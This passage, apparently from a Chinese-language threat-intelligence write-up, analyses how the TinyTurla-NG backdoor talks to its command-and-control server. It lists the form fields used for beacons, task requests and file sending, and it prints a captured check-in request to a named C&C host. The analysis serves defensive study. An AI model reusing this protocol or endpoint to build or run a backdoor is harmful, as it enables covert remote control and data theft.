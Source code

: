 ## 后门通信模型分析

通过对 TinyTurla-NG 新后门通信模型进行分析，发现 TinyTurla-NG 新后门的 HTTP 请求主要分为如下情况：

-   POST 请求中，表单数据名称为"result"：主要用于发送上线认证信标及命令执行后的响应数据；
-   POST 请求中，表单数据名称为"gettask"：主要用于请求获取远控指令；
-   POST 请求中，表单数据名称为"file"：主要用于发送文件内容；
-   POST 响应请求中，实际远控指令前需要携带“rsp:”字符串；

相关截图如下：

[![](assets/1709105912-71f6d17018ef1e0d84020a0f02e7fad0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227083932-ac6c27ec-d508-1.png)

### 上线认证

通过分析，发现 TinyTurla-NG 新后门运行后，将首先发送上线认证数据，便于 C&C 对受控主机的远控行为数据进行管理。在上线认证通信中，后门将发送“Client Ready”字符串作为信标进行发送。

详细情况如下：

```bash
#**********TinyTurla-NG 新后门 -> C&C 站点**********
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 190
Host: jeepcarlease.com

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="result"
Content-Type: text/plain
```